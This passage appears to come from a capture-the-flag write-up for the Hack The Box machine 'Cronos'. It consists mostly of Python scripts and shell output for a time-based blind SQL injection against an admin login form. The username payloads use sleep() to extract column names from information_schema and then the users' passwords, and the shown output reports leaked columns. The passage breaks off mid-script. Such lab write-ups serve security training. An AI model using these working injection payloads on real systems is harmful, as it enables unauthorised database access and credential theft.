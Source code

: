 ```python
                post_data = {
                    'username': "admin' and if(substr((select column_name from information_schema.columns where table_schema='admin' and table_name='users' limit %d,1),%d,1)='%c',sleep(5),1)-- -" % (column, position, character),
                    'password': 'admin'
                }

#                p1.status(post_data['username'])
                time_start = time.time()
                r = requests.post(admin_url, data=post_data)
                time_end = time.time()

                if time_end - time_start > 5:
                    columns += character
                    p2.status(columns)
                    break
        columns += ", "

if __name__ == "__main__":

    makeRequest()
```

```bash
./bin/python3 sqli.py
# [┴] Columns Leakage: id, username, password

nvim sqli.py
```

> **sqli.py**:

```python
#!/usr/bin/python3

from pwn import *
import signal, time, requests, string, pdb

def def_handler(sig, frame):
    print("\n\n[!] Exiting ...\n")
    sys.exit(1)

# Ctrl+c
signal.signal(signal.SIGINT, def_handler)

# Global Variables
admin_url = "http://admin.cronos.htb/index.php"
characters = string.ascii_lowercase + string.digits

def makeRequest():

    p1 = log.progress("SQLi")
    p1.status("Initiating brute force attack")

    p2 = log.progress("Information Leakage")

    time.sleep(2)

    data = ""
    for position in range(1, 50):
        for character in characters:
            post_data = {
                'username': "admin' and if(substr((select group_concat(password) from users),%d,1)='%c',sleep(3),1)-- -" % (position, character),
                'password': 'admin'
```